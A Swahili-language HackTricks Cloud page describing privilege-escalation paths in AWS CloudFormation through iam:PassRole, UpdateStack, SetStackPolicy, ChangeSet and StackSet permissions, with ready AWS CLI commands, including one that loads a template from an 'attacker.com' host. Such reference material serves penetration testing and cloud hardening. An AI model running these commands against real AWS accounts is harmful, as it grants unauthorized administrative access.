 # AWS - Ukarabati wa Mamlaka ya Cloudformation

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## cloudformation

Kwa habari zaidi kuhusu cloudformation angalia:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Mshambuliaji mwenye ruhusa hizi **anaweza kukuza mamlaka** kwa kutengeneza **stakabadhi ya CloudFormation** na templeti ya desturi, iliyohifadhiwa kwenye seva yao, kutekeleza hatua chini ya ruhusa ya jukumu lililoteuliwa:
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Katika ukurasa ufuatao una mfano wa **utumiaji mbaya** na idhini ya ziada **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Matokeo Yanayowezekana:** Privesc kwa jukumu la huduma ya cloudformation iliyotajwa.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Katika kesi hii unaweza **kutumia vibaya stak ya cloudformation iliyopo** kuiboresha na kuinua mamlaka kama ilivyokuwa kwenye kisa kilichopita:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
**Ruhusu ya `cloudformation:SetStackPolicy` inaweza kutumika kujipa ruhusa ya `UpdateStack`** juu ya stack na kufanya shambulio.

**Matokeo Yanayowezekana:** Privesc kwa jukumu la huduma ya cloudformation iliyotajwa.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Ikiwa una ruhusa hii lakini **huna `iam:PassRole`** bado unaweza **kusasisha mizunguko** inayotumiwa na kutumia **Vivutio vya IAM waliyowekwa tayari**. Angalia sehemu iliyopita kwa mfano wa kudanganya (tu usitaje jukumu lolote katika sasisho).

Ruhusa ya `cloudformation:SetStackPolicy` inaweza kutumika kujipa ruhusa ya **`UpdateStack` juu ya stack na kufanya shambulio**.

**Matokeo Yanayowezekana:** Privesc kwa jukumu la huduma ya cloudformation lililowekwa tayari.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Mshambuliaji mwenye ruhusa ya **kupitisha jukumu na kuunda & kutekeleza ChangeSet** anaweza **kuunda/kusasisha mizunguko mpya ya cloudformation na kutumia vibaya majukumu ya huduma ya cloudformation** kama ilivyo kwa CreateStack au UpdateStack.

Danganya ifuatayo ni **tofauti ya** [**ile ya CreateStack**](./#iam-passrole-cloudformation-createstack) kutumia **ruhusa za ChangeSet** kuunda mizunguko.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Unaweza kutumia ruhusa ya `cloudformation:SetStackPolicy` kumpa mwenyewe ruhusa za `ChangeSet` juu ya stack na kufanya shambulio.

**Matokeo Yanayowezekana:** Privesc kwa majukumu ya huduma ya cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Hii ni kama njia iliyopita bila kupitisha **majukumu ya IAM**, kwa hivyo unaweza tu **kutumia yale yaliyowekwa tayari**, badilisha tu parameter:
```
--change-set-type UPDATE
```
**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya cloudformation tayari limeunganishwa.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Mshambuliaji anaweza kutumia vibali hivi kuunda/kusasisha StackSets kutumia majukumu ya cloudformation ya kupindukia.

**Athari Inayowezekana:** Privesc kwa majukumu ya huduma ya cloudformation.

### `cloudformation:UpdateStackSet`

Mshambuliaji anaweza kutumia kibali hiki bila kibali cha passRole kusasisha StackSets kutumia majukumu ya cloudformation yaliyounganishwa.

**Athari Inayowezekana:** Privesc kwa majukumu ya cloudformation yaliyounganishwa.

## Marejeo

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJISAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
